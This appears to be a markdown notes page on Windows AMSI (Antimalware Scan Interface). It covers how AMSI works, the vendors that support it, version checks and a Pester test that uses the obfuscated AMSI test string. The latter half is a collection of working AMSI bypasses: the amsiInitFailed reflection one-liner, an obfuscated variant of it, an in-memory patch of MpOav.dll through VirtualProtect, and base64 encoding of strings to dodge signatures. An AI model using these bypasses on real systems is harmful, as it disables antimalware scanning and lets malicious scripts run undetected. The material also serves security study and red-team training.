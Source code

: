 # AMSI (Anti-Malware Scanning Interface)


Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


![dotnet](./images/dotnet.jpeg)

AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)

![image](./images/amsi7archi.jpg)

Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```

![image](./images/dotnetversion.jpg)

Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll

```powershell
$APIs = @"
using System;
using System.Runtime.InteropServices;
public class APIs {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ekwiam, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $APIs

$wzys = "0xB8"
$coxo = "0x57"
$hxuu = "0x00"
$eqhh = "0x07"
$paej = "0x80"
$ppiy = "0xC3"
$Patch = [Byte[]] ($wzys,$coxo,$hxuu,$eqhh,+$paej,+$ppiy)

$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls')
$Uninitialize = $object.GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null) 
```

https://youtu.be/QO_1UMaiWHk?si=C__eVWkAyj2jsBo-&t=6403

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](./images/amsi_caught.jpg)

Let's base64 encode some strings

String1 = System.Management.Automation.AmsiUtils
String2 = amsiInitFailed

```powershell
$b64String1 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("System.Management.Automation.AmsiUtils"))
$b64String2 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("amsiInitFailed"))
```

> ***String1 =>*** UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA==
> ***String2 =>*** YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA==

![image](./images/amsi_b64.jpg)